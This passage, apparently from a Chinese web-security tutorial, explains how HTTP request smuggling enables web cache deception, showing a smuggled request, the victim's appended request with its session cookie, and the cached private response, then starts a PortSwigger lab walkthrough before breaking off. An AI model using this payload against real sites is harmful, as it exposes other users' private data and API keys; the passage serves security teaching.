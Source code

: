 [![](assets/1704418275-a89e90d22ad8864e136d9413cbd89a02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161758-9a9ba90c-aa10-1.png)

[![](assets/1704418275-b0a8259b88cbc3ac7c44c0d21ed8ff0f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161808-a0b0b472-aa10-1.png)

[![](assets/1704418275-3376a753a030baf9bf06016d6fbccf2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103161820-a7a243fe-aa10-1.png)

### 缓存欺骗

在上述的上述的攻击变种中，您可以利用 HTTP 请求走私来执行 Web 缓存欺骗，这与 Web 缓存中毒攻击的工作方式类似，但目的不同

-   在 Web 缓存中毒中，攻击者使应用程序在缓存中存储一些恶意内容，这些内容从缓存提供给其他应用程序用户
-   在 Web 缓存欺骗中，攻击者使应用程序将属于另一个用户的一些敏感内容存储在缓存中，然后攻击者从缓存中检索这些内容

在这种变体中攻击者走私一个返回一些敏感的用户特定内容的请求，例如：

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

转发到后端服务器的来自另一个用户的下一个请求将被附加到走私的请求中，包括会话 cookies 和其他头，例如：

```bash
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

后端服务器以正常方式响应这个请求，请求中的 URL 用于用户的私人消息，请求在受害用户会话的上下文中处理，前端服务器根据它认为是第二个请求中的 URL(即/static/some-image.png) 缓存此响应

```bash
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```

然后攻击者访问静态 URL 并接收从缓存返回的敏感内容，这里一个重要的点是攻击者不知道敏感内容将被缓存到哪个 URL，因为这将是受害者用户在走私的请求生效时碰巧请求的任何 URL，攻击者可能需要获取大量静态 URL 来发现捕获的内容，下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码，前端服务器正在缓存静态资源，为了解决这个实验，你需要执行一个请求走私攻击，使得下一个用户的请求导致他们的 API 密钥被保存在缓存中，然后从缓存中检索受害用户的 API 密钥并将其作为实验室解决方案提交，在尝试欺骗受害者缓存他们的 API 密钥之前，您需要等待 30 秒才能访问实验室，您可以使用以下凭据登录自己的帐户:wiener:peter  
靶场演示：  
Step 1：登录账户
